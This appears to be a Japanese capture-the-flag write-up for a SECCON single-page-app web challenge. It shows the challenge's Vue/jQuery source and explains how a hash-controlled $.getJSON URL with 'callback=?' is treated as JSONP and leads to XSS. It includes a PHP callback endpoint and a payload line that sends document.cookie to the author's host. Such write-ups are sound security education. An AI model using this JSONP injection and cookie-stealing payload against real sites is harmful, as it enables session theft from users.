					</div>
				</div>
			</div>
			<div v-else-if="route === 'report'" class="container has-text-centered">
				<h1 class="title padded has-text-success is-size-1">Report Admin</h1>
				<h2 class="subtitle has-text-grey-light">
					If you found any glitches on this website, fill in the following form to report them.<br>
					The URL will be reviewed and the administrator will check it.
				</h2>
				<form action="/query" target="_blank" method="POST">
					<label class="label">URL</label>
					<div class="field has-addons">
						<div class="control is-expanded">
							<input class="input" type="url" name="url" placeholder="http://spa.chal.seccon.jp:18364/*****">
						</div>
						<div class="control">
							<button class="button is-link" type="submit">Submit</button>
						</div>
					</div>
				</form>
			</div>
			<div v-else-if="route === 'contest'" class="container">
				<progress v-if="isLoading" class="progress is-small is-primary" max="100"></progress>
				<p class="title contest-title has-text-centered is-size-1">{{name}}</p>
				<p class="subtitle has-text-centered is-size-3">{{start}} - {{end}}</p>
				<div class="columns is-centered">
					<div
						v-for="(link, title) in contest.links"
						class="column is-narrow has-text-centered"
					>
						<a
							class="button"
							:href="link"
							target="_blank"
						>
							{{title}}
						</a>
					</div>
				</div>
				<p class="subtitle is-size-5 has-text-centered">{{flagCount}}</p>
				<div class="columns is-multiline">
					<div v-for="{genre, name, point, flag} in flags" :key="name" class="column is-half is-info">
						<div class="card">
							<div class="card-content">
								<div class="content">
									<p class="title">
										{{name}}
										<span v-if="point !== null">
											<span v-if="point <= 100" class="tag is-light">
												{{point}}pts
											</span>
											<span v-else-if="point <= 200" class="tag is-success">
												{{point}}pts
											</span>
											<span v-else-if="point <= 300" class="tag is-link">
												{{point}}pts
											</span>
											<span v-else-if="point <= 400" class="tag is-warning">
												{{point}}pts
											</span>
											<span v-else class="tag is-danger">
												{{point}}pts
											</span>
										</span>
									</p>
									<p class="flag">
										<span v-if="flag === null">
											<span v-for="i in 10" :key="i" class="flag-shaken">?</span>
										</span>
										<span v-else>
											{{flag}}
										</span>
									</p>
									<p class="has-text-right is-size-5" :style="{color: getGenreColor(genre)}">
										{{genre}}
									</p>
								</div>
							</div>
						</div>
					</div>
				</div>
			</div>
		</div>
		<script src="https://cdn.jsdelivr.net/npm/vue@2.6.10"></script>
		<script src="https://code.jquery.com/jquery-3.4.1.min.js"></script>
		<script>
			const genreColors = new Map([
				['crypto', '#689F38'],
				['forensic', '#FF8F00'],
				['forensics', '#FF8F00'],
				['pwn', '#D32F2F'],
				['media', '#9C27B0'],
				['reversing', '#42A5F5'],
				['web', '#558B2F'],
				['binary', '#F57F17'],
				['programming', '#5D4037'],
				['exploit', '#1565C0'],
				['excercise', '#558B2F'],
				['stegano', '#424242'],
				['unknown', '#777777'],
			]);

			const getGenreColor = (genre) => {
				const normalized = genre.split('/')[0].toLowerCase();

				if (genreColors.has(normalized)) {
					return genreColors.get(normalized);
				}

				return '#777';
			};

			new Vue({
				el: '#app',
				data() {
					return {
						isLoading: true,
						isActive: false,
						route: 'home',
						contest: {},
						contests: [],
						contestId: null,
					};
				},
				computed: {
					flagCount() {
						if (this.contest.flags === undefined) {
							return 'No flags';
						}
						if (this.contest.flags.length === 1) {
							return '1 flag';
						}
						return `${this.contest.flags.length} flags`;
					},
					name() {
						return this.contest.name || location.hash.slice(1);
					},
					flags() {
						return this.contest.flags;
					},
					start() {
						if (this.contest.date === undefined) {
							return '---';
						}
						return new Date(this.contest.date.start).toLocaleString();
					},
					end() {
						if (this.contest.date === undefined) {
							return '---';
						}
						return new Date(this.contest.date.end).toLocaleString();
					},
				},
				async mounted() {
					addEventListener('hashchange', this.onHashChange);

					await this.onHashChange();
					await this.fetchContests();

					this.isLoading = false;
				},
				methods: {
					async fetchContest(contestId) {
						this.contest = await $.getJSON(`/${contestId}.json`)
					},
					async fetchContests() {
						this.contests = await $.getJSON('/contests.json')
					},
					async onHashChange() {
						const contestId = location.hash.slice(1);
						if (contestId) {
							if (contestId === 'report') {
								this.goReport();
							} else {
								await this.goContest(contestId);
							}
						} else {
							this.goHome();
						}
					},
					async goContest(contestId) {
						location.hash = `#${contestId}`
						this.route = 'contest';
						this.contestId = contestId;
						this.isLoading = true;
						this.isActive = false;

						await this.fetchContest(contestId);

						this.isLoading = false;
					},
					goHome() {
						location.hash = '';
						this.route = 'home';
						this.contestId = null;
						this.contest = {};
						this.isActive = false;
					},
					goReport() {
						location.hash = '#report';
						this.route = 'report';
						this.contestId = null;
						this.contest = {};
						this.isActive = false;
					},
					getGenreColor(genre) {
						return getGenreColor(genre);
					},
					getDateString(date) {
						const d = new Date(date.seconds * 1000);
						return d.toISOString().split('T')[0];
					},
					getDateStringJa(date) {
						const d = new Date(date.seconds * 1000);
						return `${d.getFullYear()}/${d.getMonth() + 1}/${d.getDate()}`;
					},
				},
				head() {
					return {
						title: `${this.contestId} - SECCON Flags Archive`,
					};
				},
			});
		</script>
	</body>
</html>
```

管理者に URL を報告することでヘッドレスブラウザで巡回してくれるという機能があることから、この問題で XSS できることが推測できます。

Web アプリケーションの脆弱性を探していきます。HTML 部分では `v-html` 等は使われておらず、ここでは XSS できそうにありません。JavaScript 部分では、以下のように怪しげな処理がありました。

```javascript
async fetchContest(contestId) {
  this.contest = await $.getJSON(`/${contestId}.json`)
},
```

`contestId` はユーザ入力 (`location.hash.slice(1)`) に由来しており、自由に操作できます。`#/(URL)/neko.php?` のように `//` から始まるようにすることで (JSON を返すサーバ側が HTTP レスポンスヘッダをちゃんと設定していれば) 外部から JSON を持ってくることができます。

---

競技終了後、IRC で次のようなメッセージがありました。

> 15:10 &lt;bluepichu&gt; bhik: http://spa.chal.seccon.jp:18364/#/<your-domain-here>/lol?callback=?&x=

`callback=?` という GET パラメータを付与すれば何かできるようです。どういうことか、jQuery のドキュメントを確認しましょう。

> If the URL includes the string "callback=?" (or similar, as defined by the server-side API), the request is treated as JSONP instead.
> 
> https://api.jquery.com/jQuery.getJSON/

`callback=?` という GET パラメータを付与して `$.getJSON` を呼び出し、サーバ側がこれに対応すれば JSONP として扱われ、JavaScript コードとして実行されるようです。

試しに以下のような PHP コードを `neko.php` として公開し、

```php
<?php
header('Content-Type: application/json');
header('Access-Control-Allow-Origin: *');
echo "{$_GET[callback]}; alert(1)";
?>
```

`/#/(省略)/neko.php?callback=?&` にアクセスすると `1` という内容でアラートが表示されました。jQuery こわ。

`alert(1)` を `(new Image).src='http://(省略)?'+document.cookie` に差し替えてみると、`?flag=SECCON{Did_you_find_your_favorite_flag?_Me?_OK_take_me_now_:)}` という HTTP リクエストが来ました。

```
SECCON{Did_you_find_your_favorite_flag?_Me?_OK_take_me_now_:)}
```